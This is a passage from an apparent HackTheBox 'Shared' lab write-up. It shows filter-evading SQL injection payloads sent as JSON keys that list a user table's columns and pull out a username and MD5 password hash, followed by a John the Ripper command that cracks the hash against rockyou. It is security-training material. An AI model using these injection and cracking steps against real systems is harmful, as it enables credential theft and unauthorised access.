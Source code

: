 I think the product table is not in interesting for us. Now we list names of the table columns.

Payload:

```javascript
{"-1' UniOn Select 1,gRoUp_cOncaT(0x7c,column_name,0x7c),3 fRoM information_schema.columns wHeRe table_name='user' -- -":"1"}
```

![List user table](/assets/hackthebox/shared/db_table_users.png)

We can see an id, username and a password here. I don't think there is many users, because we can't log in or sign up in the application. That's why I used an id 1 in next payloads to get the credentials.

Payload:

```javascript
{"-1' UniOn Select 1,gRoUp_cOncaT(0x7c,username,0x7c),3 fRoM user wHeRe id=1 -- -":"1"}
```

![Username](/assets/hackthebox/shared/db_username.png)

Payload:

```javascript
{"-1' UniOn Select 1,gRoUp_cOncaT(0x7c,password,0x7c),3 fRoM user wHeRe id=1 -- -":"1"}
```

![Password hash](/assets/hackthebox/shared/db_hash.png)

We got a username and his password hash. The hash is a `MD5` hash. Let's brute it with JohnTheRipper.

```zsh
┌──(kali㉿workstation)-[~/Documents/Shared]
└─$ john --wordlist=~/tools/rockyou.txt --format=raw-md5 hash
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
-- EDITED --        (?)     
```
